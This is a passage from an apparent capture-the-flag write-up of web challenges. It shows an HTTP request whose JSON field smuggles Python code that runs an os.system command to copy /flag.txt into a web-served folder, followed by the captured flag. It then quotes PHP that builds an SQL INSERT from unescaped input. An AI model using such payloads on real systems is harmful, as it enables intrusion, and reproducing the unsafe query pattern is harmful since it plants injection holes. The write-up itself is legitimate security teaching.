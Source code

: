 ```python
            blue_band=img_bands[2]
        )
```

So, we just copy pasting the payload and successfully obtained the **FLAG**

```
POST /api/alphafy HTTP/1.1
Host: 157.245.40.139:31815
Content-Length: 342
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
DNT: 1
Content-Type: application/json
Accept: */*
Origin: http://157.245.40.139:31815
Referer: http://157.245.40.139:31815/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,id;q=0.8
Connection: close

{"image":"iVBORw0KGgoAAAANSUhEUgAAAHkAAAAbCAIAAADXpLdPAAAACXBIWXMAAA7EAAAOxAGVKw4bAAAAWklEQVRoQ+3QoQ0AIQDAwOfXICHsPyUeT9WdrOyYa38k/jvwjNcdrzted7zueN3xuuN1x+uO1x2vO153vO543fG643XH647XHa87Xne87njd8brjdcfrjtedA4v8AI+wONVzAAAAAElFTkSuQmCC","background":["(lambda: __import__('os').system('cat /flag.txt > application/static/flag.txt'))()",71,71]}
```

![](amidst-3.png)

**HTB{i_slept_my_way_to_rce}**


### Intergalactic Post (300 points)

The value of this challenge is 300 points and +360 players have solved this challenge.

![](intergalactic-1.png)

We're given a website with a feature for subscribing to stuff.

![](intergalactic-2.png)

In this challenge, the author gives us a source code, We could make use of this for analyzing the source code.

After reading the _source code_, there's an odd way for executing SQL at `challenge/Database.php#L34:L37`.

```php
public function subscribeUser($ip_address, $email)
{
    return $this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
}
```
